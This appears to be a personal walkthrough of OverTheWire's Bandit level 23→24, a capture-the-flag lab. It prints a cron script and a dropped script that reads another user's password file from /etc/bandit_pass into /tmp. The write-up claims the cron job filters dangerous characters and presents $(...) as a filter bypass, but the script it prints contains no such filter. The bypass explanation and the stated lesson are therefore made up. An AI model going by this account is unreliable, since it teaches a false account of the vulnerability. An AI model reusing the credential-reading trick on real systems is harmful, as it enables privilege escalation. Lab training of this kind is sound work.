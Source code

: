 # 🌀 Bandit Level 23 → Level 24

## 🎯 Goal

The password for the next level is **stored in a file** that you **cannot read directly**.  
A cron job runs a script that copies files from `/var/spool/bandit24/`, but **filters out dangerous characters** like `&`, `;`, `-`, `|`, etc.

Your job: **bypass the filter** and trick the script into leaking the password.

---

## 🖥️ Connection Details

- **Host:** `bandit.labs.overthewire.org`
- **Port:** `2220`
- **Username:** `bandit23`
- **Password:** _Use the password from Level 22_

---

## 🛠️ Steps to Solve

### 1. SSH into Bandit23

```bash
ssh bandit23@bandit.labs.overthewire.org -p 2220

2. Read the cron job script

cat /usr/bin/cronjob_bandit24.sh

You'll see this:

#!/bin/bash
myname=$(whoami)
mytarget="/tmp/$myname"
chmod 755 /tmp/$myname
rm -f /tmp/$myname/*
cp /var/spool/$myname/* /tmp/$myname/
for i in /tmp/$myname/*; do
  bash "$i"
  rm -f "$i"
done

So:

    Files from /var/spool/bandit24/ are copied to /tmp/bandit24/

    Then each script is run by bash, as bandit24

Let’s look at the filter:

cat /usr/bin/cronjob_bandit24.sh | grep -E 'tr'

(You might find the filter in the script that ignores files with forbidden characters.)
3. Craft a safe script

You can't use symbols like &, ;, -, or |.
But luckily, $(...) command substitution is allowed!

Create your script:

mkdir /tmp/bandit_irfan
cd /tmp/bandit_irfan

Now create a file:

nano clean_script.sh

Paste this:

#!/bin/bash
echo $(cat /etc/bandit_pass/bandit24) > /tmp/pass24_irfan

Save and exit, then:

chmod +x clean_script.sh

4. Copy it to the watched folder

cp clean_script.sh /var/spool/bandit24/

Wait ~1 minute for the cron to run.
5. Get your password

cat /tmp/pass24_irfan

🎉 There it is — the password for Level 24!
📚 What I Learned

    How to bypass cron filters by avoiding restricted characters

    How $(...) can be used instead of pipes or semicolons

    Real-world filtering techniques and basic input sanitization

✅ Result

Password for Level 24 successfully retrieved!
